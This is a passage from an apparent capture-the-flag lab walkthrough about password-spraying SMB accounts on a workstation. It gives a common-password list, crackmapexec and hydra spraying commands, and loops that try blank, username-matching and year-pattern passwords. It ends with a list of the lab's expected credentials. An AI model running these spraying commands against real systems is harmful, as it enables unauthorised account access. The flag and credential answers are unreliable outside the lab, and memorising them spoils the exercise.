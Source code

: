 Sometimes accounts themselves are interesting:
**FLAG{R***************1}** - Found as a hidden username

### Step 2.3: Password Spraying

Common workstation passwords:

```bash
# Create user list from enumeration
cat users_enum.txt | grep "username:" | cut -d: -f2 > users.txt

# Common workstation passwords
cat > passwords.txt << EOF
Password1
Password123
Welcome1
Welcome123
Summer2024
Winter2024
Company123
Changeme123
Password1!
Welcome1!
EOF

# Password spray with lockout prevention
crackmapexec smb $TARGET_WS -u users.txt -p passwords.txt --continue-on-success --delay 5

# Alternative with Hydra
hydra -L users.txt -P passwords.txt smb://$TARGET_WS -V -t 1
```

**Alternative Authentication Methods:**
```bash
# Try blank passwords
crackmapexec smb $TARGET_WS -u users.txt -p ''

# Try username as password
for user in $(cat users.txt); do
    smbclient -L //$TARGET_WS -U "$user%$user" 2>/dev/null && echo "Found: $user:$user"
done

# Common patterns
for user in $(cat users.txt); do
    for year in 2023 2024 2025; do
        smbclient -L //$TARGET_WS -U "$user%Password$year" 2>/dev/null && echo "Found: $user:Password$year"
    done
done
```

Expected credentials:
- jsmith:Welcome1
- localadmin:Administrator123
